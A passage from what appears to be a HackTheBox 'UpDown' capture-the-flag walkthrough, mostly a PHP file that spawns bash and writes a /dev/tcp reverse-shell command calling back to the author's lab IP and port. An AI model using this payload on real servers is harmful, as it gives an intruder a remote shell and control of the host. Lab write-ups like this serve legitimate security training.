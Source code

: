 <p align="center">
  <img src="/images/walkthroughs/hackthebox/updown/4_4_result_first.png" width="90%"/>
</p>


So modifying the input string on the pipe[0] we can create a revshell. Tried hard on the _mkfifo /tmp/f..._ revshell but didn't work, seems like the concatenation or the pipe are messing the call. Used a basic redirection and it worked:


```php
http://10.10.14.175
<?php

set_time_limit (0);
$VERSION = "1.0";
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/bash';
$daemon = 0;
$debug = 0;


$descriptorspec = array(
   0 => array("pipe", "r"),  // stdin is a pipe that the child will read from
   1 => array("pipe", "w"),  // stdout is a pipe that the child will write to
   2 => array("file", "/tmp/error-output.txt", "a") // stderr is a file to write to
);


$process = proc_open($shell, $descriptorspec, $pipes);

if (!is_resource($process)) {
  printit("ERROR: Can't spawn shell");
  exit(1);
}

fwrite($pipes[0], 'bash -i >& /dev/tcp/10.10.14.175/5454 0>&1');
fclose($pipes[0]);
echo stream_get_contents($pipes[1]);
fclose($pipes[1]);

$return_value = proc_close($process);

echo "command returned $return_value\n";
?> 
```
